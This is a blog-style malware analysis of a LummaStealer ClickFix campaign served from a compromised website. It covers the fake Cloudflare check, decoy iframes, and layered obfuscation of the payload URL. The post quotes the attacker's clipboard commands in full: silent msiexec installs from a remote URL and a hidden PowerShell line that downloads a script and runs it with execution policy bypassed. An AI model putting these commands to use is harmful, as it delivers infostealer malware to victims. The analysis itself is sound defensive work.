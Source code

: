 ```yaml
---
layout: post
title:  "LummaStealer - ClickFix MSI Installer Payload"
date:   2025-06-16 21:00:00 +1000
categories: malware analysis
---
```


<style>
  body { font-size: 13px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview - LummaStealer Malware Analysis (27th July 2025)

Full malware analysis on LummaStealer on a compromised website. This one took me some time as the malware is super impressive.

LummaStealer has lots of different variants. Therefore, malware analysis found online varies significantly. A compromised website I've been monitoring that has pushed three different samples of LummaStealer to it's victims in the past week. Furthermore, each time you query the stage one domain the network IOCs change. So, it's super neat. One cool pickup that does seem consistent is. If your host in running in Russian, the malware terminates. Make of that what you like.

### Compromised Website ClickFix

I've booted up my Windows 10 VM so we can whack this through and see what happens.

Here is the Clickfix prompt on load. First, lets see how this got here? Where from? I've checked the Network tab in dev tools and found two suspicious domains that my browser has received HTTP requests from as a result of visiting this website
- api[.]brainbotfilebeatsave[.]com
- fullporner[.]com

![Stage 1](/images/cloudflare_stage1.PNG)
![Stage 2](/images/cloudflare_stage2.PNG)

So why are we sending GET requests to brainbot by visiting the website? This little iframe here.

![BrainBot iframe](/images/brainbot_iframe.PNG)

We can see we sent a GET request to brainbot and as a response received some HTML/CSS/JS. The IP of brainbot is 104.21.48.1. Which is a CloudFlare proxy IP. Side note but an important one - adversaries seem to use cloudflare IPs to mask the IPs of their webservers quite frequently. Given that this attack uses a cloudflare clickfix prompt its more believable for level 0 soc analysts triaging this alert. 

![First GET Request to Brainbot](/images/get_brainbot.PNG)

Secondly we can see a GET request fullporner[.]com directly after sending a GET request to brainbot. 

![First GET Request to FullPorner](/images/fullporner_referral.PNG)

Let's inspect the script brainbot sent to us after our GET request.

First up we can see functions for browser fingerprinting and IP checking. Actually, what's really cool is the .js makes you query IP config sites yourself! 

![IP query](/images/ip_query.PNG)

Now we have the .html, .css and a bit of .js that displays the fake verification page and captures the results. 

![Cloudflare Clickfix](/images/cloudflare_html.PNG)

At the start of the .html we have an iFrame to fullporner[.]com but it doesn't look like it does anything? Now I'm almost certain this for some sort of decoy. I thought maybe brainbot was retrieving suspicious stuff from fullporner[.]com but nope. I was wrong. I guess if a SOC analyst looks at this alert they might think it's some dodgy porn page, rather than a LummaStealer loader. I'm not too sure, this is hilarious.

![iFrame](/images/full_porner.PNG)

Ok now lets get into the good stuff. 

![sjsh function](/images/sjsh_malicious_function.PNG)

We can see the function (sjsh) sends a GET request to an unknown domain. When loaded, it copies the constant 'command' to the users clipboard. Now the spuds have commented out earlier payloads. So we can infact see four different payloads! Interesting there is both a powershell and multiple msiexec payloads. This goes back to my comment earlier, there is so many different payloads for Lumma. Anyway, lets have a look at what some of the flags mean in these payload commands. 
1. ```const command = `msiexec /qn /i ${gotourl};```
- (/i) = tells msiexec to install the following package
- (/qn) = quiet mode with no UI for install
2. ```//const command = `msiexec KLSK=1101 /package ${gotourl} /promptrestart LAPBO=189 /quiet NIANS=299;```
3. ```const command = `msiexec SKSIA=1401 /package ${gotourl} /promptrestart LAPBOS=119 /passive NIANS=299;```
- (/package) = specifies .msi to install (same as /i)
- (/promptrestart) = restarts prompt at end if needed
- (/quiet) = quiet mode install
- KLSK, LAPBO, NIANS. These aren't msiexec flags. They could potentially define custom properties in the .msi file.
4. ```//const command = `powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f"`;```
- (-wh h) = WindowStyle and hidden
- (-c) = command
- ($f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1') = Creates random .ps1 script in Temp directory
- (curl ${gotourl} -o $f) = Downloads file from URL
- (-ep Bypass) = disables execution policy
- (-f) = runs file

Now we can see the payload, but no domains. So lets check out the variable ```gotourl``` is calculated because I reckon it'll give us the domain. It looks heavily obfuscated. Here is a snippet of the .js of it. Here is a step by step breakdown of it.
![Go To URL](/images/go_to_url.PNG)

1. Function takes the 'jsh' value when the function is called
2. Sends a GET request to brainbot using the following URL parameter ```/?jsc=<jsh>&f=<f>&t=<rt>```
3. If the request is successful (200) we receive a base64 string.
- ```let gotourl = hex2a(strrev(atob(hex2a(strrev(atob(xhr.response))))))```
- B64 decodes raw response (atob(xhr.response))
- Reverses the string (strrev(atob_returned_value))
- Converts string to ASCII (hex2a(strrev_returned_value))
- Now repeat again! Because there are 6 layers!
4. Now we have our domain ```window.gotourl = URL```

So now we know how this works. Lets try grab this domain. After clicking the tick box, I send a GET request to brainbot with the jsc flag. This contains all the details brainbot needs to shoot me back a domain.

![encoded jsc](/images/jsc_obfuscate.PNG)

Now this is what brainbot returned. Also side note you can see the requests to the IP check domains on the side as well.

![brainbot base64 response](/images/brainbot_response.PNG)

Lastly, lets deobfuscate. My friend ChatGPT will assist here.

![gospel output](/images/payload_url.PNG)

Plot twist! You have got to be joking. So essentially what this means is. LummaStealer is getting it's payloads from FullPorner. Now becuase it's .php we can't view it in a browser. 

When I go to paste the command in run I get the domain 'veriqloudx' not 'fullporner'. Anyway, veriq was created two days ago. Pretty neat, good rep on VT. Nice.
![VT Veriqloudx](/images/veriq_rep.PNG)

### LummaStealer on my VM

Alright now we know what the server side is getting up to. Lets run one of these payloads in a VM and dig into what it's doing.

I'm going to go with:
- ````powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f```

LummaStealer as per previous writeups does VM/Sandboxing detection capabilities. So this may be difficult.

Anyway, here is my setup for running this.
- Windows 10 VM (Snapshotted before malware detonation)
- WireShark
- Procmon
- Process Explorer
- API Monitor
- Pe Bear

The Lumma infection chain tends to work like this.
1. Downloads payload
2. Pulls C compiler and creates malicious .cmdline files
3. Runs these files in memory
4. Creates persistence
5. Scans browsers and other locations for passwords and host information
6. Exfilitrates initial data
7. Downloads and executes beacon
